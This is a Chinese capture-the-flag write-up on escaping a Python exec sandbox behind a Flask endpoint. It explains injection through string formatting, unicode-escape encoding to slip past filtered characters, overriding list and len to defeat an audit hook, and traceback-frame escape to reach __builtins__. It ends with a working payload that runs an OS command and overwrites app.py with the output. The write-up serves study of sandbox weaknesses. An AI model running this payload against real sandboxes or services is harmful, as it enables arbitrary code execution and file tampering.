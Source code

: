 ```python
            return Response("Error", status=400)
    output=safe_exec(CODE.format(text))
    if len(output)>5:
        return Response("Error", status=400)
    return Response(output, status=200)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

`CODE.format(text)`将`text`替换到`{}`，等价于`print("text")`

```
text=")
#这里执行代码
print("
```

就可以执行代码了，然后要绕`badchars`，`safe_exec`中`code = code.encode().decode('unicode_escape')`

unicode_escape会解析 Unicode 转义序列，只需要**将text的值unicode编码**，在safe_exec中就会还原回原字符（就是编码解码不一致还是在badchar后解的码）

然后就是审计钩子的绕过，就很简单一查就有强网杯的题，**重写list与len方法就行**

然后就是ast的绕过，禁止了**生成器**与一些**魔术属性与方法**，然后就不能生成器栈帧逃逸与继承链应该也不太行的通

提升跟Exception有关，一查应该都能查出来，**异常栈帧逃逸**(有很多方法吧，我觉得这个最好查？所以提升给了可能？)

```
try:
    1/0
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
```

`e.__traceback__` → 指向异常发生时的 **traceback** 对象

traceback 里包含 `tb_frame` → 指向异常发生的 **栈帧 frame 对象**

frame 里包含 `f_locals`、`f_globals`、`f_back` → 可以沿着链条访问之前的局部变量、全局变量、调用栈

可以逃逸到exec外的全局拿`__builtins__`

```python
text=")
list=lambda x:True
len=lambda x:False

try:
    1/0
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
    builtins.exec("builtins.__import__('os').system('ls / -al>app.py')")    #这里__import__被act拦了，所以放成字符串丢到exec里（也可以用__getattribute__获取__import__）
    #frame.f_globals['SandboxVisitor'].visit_Attribute=lambda x,y:None  #重写visit_Attribute后
    #builtins.__import__('os').system('ls />app.py') 					#也ok
print("

#得unicode编码
```
